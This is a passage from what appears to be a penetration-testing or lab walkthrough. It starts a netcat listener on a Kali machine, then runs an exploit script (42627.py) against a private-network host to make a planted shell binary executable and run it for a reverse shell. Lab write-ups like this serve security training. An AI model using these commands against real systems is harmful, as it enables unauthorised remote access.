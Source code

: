 	Create a listener in Kali machine.

	``` bash
	sudo nc -nvlp 4444
	```

	Execute file shell.elf and get reverse shell

	```
	python3 42627.py http://192.168.110.137/orders/3 'chmod +x /tmp/shell' > /dev/null
	python3 42627.py http://192.168.110.137/orders/3 '/tmp/shell' > /dev/null
	```

	![6](img/6.png)